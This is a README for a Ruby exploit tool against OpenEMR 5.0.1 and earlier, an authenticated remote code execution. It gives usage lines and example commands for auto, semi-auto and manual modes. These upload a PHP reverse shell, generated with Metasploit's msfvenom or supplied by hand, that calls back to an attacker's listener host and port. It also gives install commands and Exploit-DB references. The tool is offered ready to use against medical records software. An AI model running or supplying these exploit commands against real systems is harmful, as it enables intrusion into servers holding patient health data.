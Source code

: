 # OpenEMR RCE exploit / PoC

> OpenEMR <= 5.0.1 - (Authenticated) Remote Code Execution

[[EDB-49486]](https://www.exploit-db.com/exploits/49486) [[PacketStorm](https://packetstormsecurity.com/files/158711/OpenEMR-5.0.1-Remote-Code-Execution.html)] [[WLB-2020080011](https://cxsecurity.com/issue/WLB-2020080011)]

## Usage

```
$ ruby exploit.rb --help
OpenEMR <= 5.0.1 - (Authenticated) Remote Code Execution

Usage:
  exploit.rb manual --root-url <url> --shell <filename> --user <username> --password <password> [--debug]
  exploit.rb semi-auto --root-url <url> --user <username> --password <password> --payload <payload> --lhost <host> --lport <port> [--debug]
  exploit.rb auto --root-url <url> --user <username> --password <password> --lhost <host> --lport <port> [--debug]
  exploit.rb -H | --help

Options:
  -r <url>, --root-url <url>            Root URL (base path) including HTTP scheme, port and root folder
  -s <filename>, --shell <filename>     Filename of the PHP reverse shell payload
  -u <username>, --user <username>      Username of the admin
  -p <password>, --password <password>  Password of the admin
  -m <payload>, --payload <payload>     Metasploit PHP payload
  -h <host>, --lhost <host>             Reverse shell local host
  -t <port>, --lport <port>             Reverse shell local port
  --debug                               Display arguments
  -H, --help                            Show this screen

Examples:
  exploit.rb manual -r http://example.org/openemr -s myRevShell.php -u admin -p pass123
  exploit.rb semi-auto -r http://example.org:8080/openemr -u admin_emr -p qwerty2020 -m 'php/reverse_php' -h 10.0.0.2 -t 8888
  exploit.rb auto -r https://example.org:4443 -u admin_usr -p rock5 -h 192.168.0.2 -t 9999
```

## Modes

- **Auto**: you know the target and have your listener ready, let the exploit handle the rest
- **Semit-auto**: same as auto but you would like to specify another payload than the default `php/reverse_php`
- **Manual**: you already have a custom PHP reverse shell, the exploit lets you specify it

## Requirements

- [httpclient](https://github.com/nahi/httpclient)
- [docopt.rb](https://github.com/docopt/docopt.rb)
- (Optional) [Metasploit Framework](https://github.com/rapid7/metasploit-framework) (`msfvenom` for reverse shell generation in auto and semi-auto modes)

Example for BlackArch:

```
pacman -S ruby-httpclient ruby-docopt metasploit
```

Example using gem:

```
gem install httpclient docopt
```

## Reference

This is a better re-write of [EDB-ID-48515][EDB-ID-48515]:

- using arguments (instead of hardcoded values)
- allowing custom PHP reverse shell or auto generating one with `msfconsole`
- cleaner & more customizable
- using ruby (python2 is deprecated)

This exploit was tested with Ruby 2.7.1.

About [EDB-ID-48515][EDB-ID-48515]:

```
Exploit Author: Musyoka Ian
Date: 2020-05-25
Vendor Homepage: https://www.open-emr.org/
Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
Dockerfile: https://github.com/haccer/exploits/blob/master/OpenEMR-RCE/Dockerfile 
Version: < 5.0.1 (Patch 4)
Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3
References: https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69
```

[EDB-ID-48515]:https://www.exploit-db.com/exploits/48515
